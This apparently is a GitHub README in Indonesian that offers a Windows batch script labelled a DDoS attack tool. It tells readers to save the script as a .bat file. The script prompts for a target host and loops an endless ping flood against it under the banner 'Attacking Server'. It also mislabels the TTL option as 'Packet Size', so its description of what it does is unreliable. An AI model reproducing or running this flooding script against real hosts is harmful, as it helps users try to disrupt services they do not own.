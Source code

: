 # DDos
Gunakan script ini dengan bijak
#cara pemakaian
Buka notepad pada menu lalu salin script ini
Copy lalu pastekan ke notepad lalu save dengan 
Kata .bat di ujung kata contoh DDOS.bat

$ @echo off

$ mode 67,16
$ title DDOS Attack By xxxbdzx
$ color 0b
$ cls
$ echo.
$ echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
$ echo DDOS With Batchfile By xxxdzx
$ echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
$ echo.
$ set /p x=Server-Target:
$ echo.
$ echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
$ ping %x%
$ echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
$ @ping.exe 127.0.0.1 -n 5 -w 1000 > nul
$ goto Next
$ :Next
$ echo.
$ echo.
$ echo.
$ set /p m=ip Host:
$ echo.
$ set /p n=Packet Size:
$ echo.
$ :DDOS
$ color 0d
$ echo Attacking Server %m%
$ ping %m% -i %n% -t >nul
$ goto DDOS
